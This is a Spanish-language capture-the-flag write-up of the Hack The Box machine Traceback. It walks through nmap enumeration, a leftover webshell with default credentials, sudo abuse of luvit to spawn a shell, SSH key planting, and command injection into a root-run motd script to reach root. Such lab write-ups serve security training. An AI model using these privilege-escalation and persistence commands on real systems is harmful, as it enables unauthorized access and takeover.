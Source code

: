 ```yaml
---
title: "HTB – Traceback"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2020/traceback.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```


OS 				 | LINUX
Desarrollado por | Xh4H
Dificultad 		 | Fácil
Liberación 		 | 14 marzo 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando **nmap -sCV -A 10.10.10.181** solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 01:42 BST
Nmap scan report for 10.10.10.181
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=43037%PV=Y%DS=2%DC=T%G=Y%TM=5E9CF01
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS( 
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( 
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 77.21 ms 10.10.14.1
2 77.32 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 24.47 seconds
```

Por lo que se empieza a buscar información en el código fuente de la página web, mientras se ejecuta la **dirbuster** para buscar paginas ocultas y poder acceder a ellas.

No se encuentra información importante por lo que se utiliza google para buscar nuevas soluciones. Encontramos que el creador posteo en su twitter algunas webshell interesantes.

![Traceback 1](/assets/images/post/2020/traceback1.png)

Al usar este nuevo listado en **dirbuster** con el nuevo listado descubrimos un archivo llamado smevk.php y al revisar el codigo de este en internet descubrimos que se puede acceder con el usuario admin/admin

![Traceback 2](/assets/images/post/2020/traceback2.png)

Acá nos permitirá crear nuestro propio archivo php, en este caso crearemos un php con una shell reverse, al ejecutarla accedemos a nuestra primera shell.

## 1° Shell

Al cargar esta shell accedemos al sistema con el usuario webadmin, por lo que nos ponemos a revisar sus carpetas, el historial y los permisos que este posee con **sudo –l**

Se ve que el usuario creó un archivo privesc.lua y despues lo elimina, sin antes ejecutarlo

```
Matching Defaults entries for webadmin on traceback:
	env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
	(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

<p>Nos damos cuenta que podemos ejecutar un programa sin la password del usuario sysadmin, además creamos uno archivo lua, en el cual posea el comando <b>echo 'os.execute("/bin/sh")' > racso.lua</b>. Una vez que lo ejecutamos tal como se mostró en el historial podemos acceder a la shell del usuario</p>

## Shell Usuario

<p>Al escalar el privilegio obtenemos la primera flag, luego empezamos a buscar alguna otra forma de subir el privilegio a root, lo primero que vemos son los procesos <b>ps –aux</b> y nos llama la atención una que es ejecutada por <b>root</b> <i>(/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/)</i> y lo que nos dice que se ejecuta el archivo 00-header cada vez que hay una conexión exitosa de SSH.</p>

Por otro lado, encontramos en la carpeta **.ssh** del usuario los archivos de autorización de las conexiones, es por ello que, ingresaremos nuestro propio ssh-rsa a este archivo para que sea válido al momento de conectarnos

- Creamos nuestro rsa con **ssh-keygen -t rsa**
- Copiamos este rsa.pub generado en el archivo **authorized_keys** escribiendo
	- echo “TODO LO QUE EL ARCHIVO ID_RSA.PUB CONTENGA” >> /home/sysadmin/.ssh/authorized_keys
- Ejecutamos una conexión ssh desde nuestro equipo utilizando el id_rsa creado **ssh –i id_rsa sysadmin@10.10.10.181**

Lo que permitirá acceder vía ssh a la máquina, el problema es que hasta el momento mantenemos el mismo nivel de usuario.

Al seguir investigando sobre update-motd.d que está en la carpeta /etc/ nos percatamos que el usuario sysadmin tiene permiso de escritura para el archivo 00-header, por lo que ingresaremos un comando donde nos mostrará la flag.

<p>Si escribimos echo <b>"cat /root/root.txt" >> /etc/update-motd.d/00-header</b> tal como averiguamos antes cargará este comando al momento de acceder a la termina vía ssh mostrandonos la flag al acceder, sin obtener la shell root.</p>

## Root shell

No es necesario acceder a esta shell si solo quieren obtener las flag, pero si de igual forma quieren acceder se puede usar el mecanismo anterior pero ahora guardando la clave publica en el archivo authorized_keys del root, para ello escribimos lo siguiente

```
echo "echo \" LO QUE ESTA EN EL ID_RSA.PUB \" >> /root/.ssh/authorized_keys" >> /etc/update-motd.d/00-header
```

Ingresamos nuevamente como sysadmin, para que ejecute el comando y ahora al salir de la maquina podremos volver a conectarnos, pero con el usuario root

```
root@traceback:~# id && date uid=0(root) gid=0(root) groups=0(root) Sun Apr
```

![Racso](https://www.hackthebox.com/badge/image/159593)